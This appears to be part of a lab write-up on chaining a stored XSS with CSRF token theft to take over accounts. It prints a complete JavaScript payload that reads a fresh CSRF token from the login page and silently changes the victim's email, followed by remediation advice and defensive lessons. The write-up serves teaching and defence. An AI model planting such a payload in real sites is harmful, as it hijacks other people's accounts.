

---

## Final Payload:

Decoded/Plain:

```text
fetch('/login',{method:'get'}).then(res=>res.text()).then(html=>{const parser=new DOMParser();const doc=parser.parseFromString(html,'text/html');const CSRFTOKEN=doc.querySelector('input[name=csrf]').value;fetch('/my-account/change-email',{method:'post',credentials:'include',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'email=attacker2%40gmail.com&csrf='+CSRFTOKEN})})
```

---

## Result

Once the payload was injected as a comment, anyone who visited that post would silently trigger the exploit.
The script runs in the victim's browser, fetches the `/login` page to extract a fresh CSRF token, then immediately fires a `POST` request to `/my-account/change-email` with that token and the attacker's email address — all in the background, with zero visible indication to the victim.

The email change goes through, and from that point the attacker owns the account: they can trigger a password reset to the new email and gain full access.
That is a textbook Account Takeover (ATO).

---

## Impact & Remediation

This vulnerability is actually two bugs working together.

The stored XSS gives the attacker JavaScript execution in the victim's browser. Once that happens, the attacker is no longer limited by CSRF protections. They can simply request a fresh CSRF token, read it, and immediately use it in another request.

In this lab the result is an account takeover by changing the victim's email address. After that, the attacker can reset the password and gain full access to the account.

The main issue is the stored XSS and that should be fixed first. User input must be properly encoded before it is rendered in HTML. A CSP is also a good extra layer of protection, but it should never be treated as a replacement for fixing the injection itself.

As for CSRF, the protection itself is not broken. The problem is that XSS turns the attack into a same-origin one, so the attacker can read the CSRF token just like the legitimate user. Once an attacker has XSS, CSRF tokens are no longer a reliable defense.

The biggest lesson from this lab is simple: **if an attacker can execute JavaScript on your origin, they can usually bypass CSRF protections as well.**
---

## Takeaway

This lab is a clean demonstration of vulnerability chaining — neither issue alone is catastrophic in isolation, but together they produce full account takeover.

The key lessons from this challenge:

* **XSS is not just about alerts — it is about what the attacker can do in the victim's browser context.**
  Once you have script execution on the target origin, you are same-origin. CSRF tokens, same-origin policy, and most browser-level protections no longer apply to you. The attacker is effectively the victim, from the server's perspective.

* **CSRF tokens protect against cross-origin requests, not same-origin ones.**
  This is a fundamental and often misunderstood point. CSRF tokens work because a malicious third-party site cannot read them. The moment an attacker has XSS on the target origin, they can read anything the victim's browser can read — including fresh CSRF tokens from any page.

* **`DOMParser` is a powerful tool in an attacker's script.**
  Fetching a page and parsing its HTML to extract hidden fields is a clean and reliable technique. The `/login` page was not meant to be an API endpoint, but it was — from the attacker's perspective.

* **Stored XSS has a wider blast radius than Reflected XSS.**
  A reflected XSS requires the attacker to deliver a link and convince someone to click it. A stored XSS sits in the application and waits. Every user who views the infected post is a victim, automatically and silently.

* **Always test comment sections and any user-generated content fields.**
  These are among the most common stored XSS entry points because they are designed to accept and display arbitrary user input. Any reflection without encoding is a potential injection point.

* **Defense in depth matters.**
  The `SameSite` cookie attribute, CSP, output encoding, and CSRF tokens each address a different part of the attack surface. No single control is sufficient. Removing the XSS would have stopped this attack — but having `SameSite=Strict` and a CSP would have made it significantly harder even if the XSS remained.
